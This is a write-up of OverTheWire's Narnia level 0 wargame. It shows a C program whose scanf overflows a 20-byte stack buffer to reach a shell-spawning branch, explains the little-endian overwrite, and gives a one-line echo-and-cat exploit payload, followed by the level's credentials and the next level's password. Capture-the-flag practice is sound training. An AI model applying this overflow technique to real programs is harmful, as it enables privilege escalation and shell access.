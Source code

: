 # OverTheWire Narnia Level 0

## Credentials
username: narnia0
password: narnia0


## Writeup
The C program code is as follows:
```c
#include <stdio.h>
#include <stdlib.h>

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
The buf variable is defined before the val variable in memory. The program reads user input into buf using scanf, which introduces a vulnerability because the input buffer size is larger than the allocated space for buf.

The program is running on an x86 machine that uses little-endian encoding for storing bytes. This means that to correctly overwrite the val variable, the input must be provided in reverse byte order. By exploiting a buffer overflow, we can overwrite the val variable by padding the input with 20 characters and then appending the desired value, 0xdeadbeef, in reverse.

The `cat` program can be used to keep the standard input open after piping data into a program, allowing for further interaction.
(echo -e "11111111111111111111\xef\xbe\xad\xde"; cat;) | ./narnia0

## Flag
narnia1 password: WDcYUTG5ul
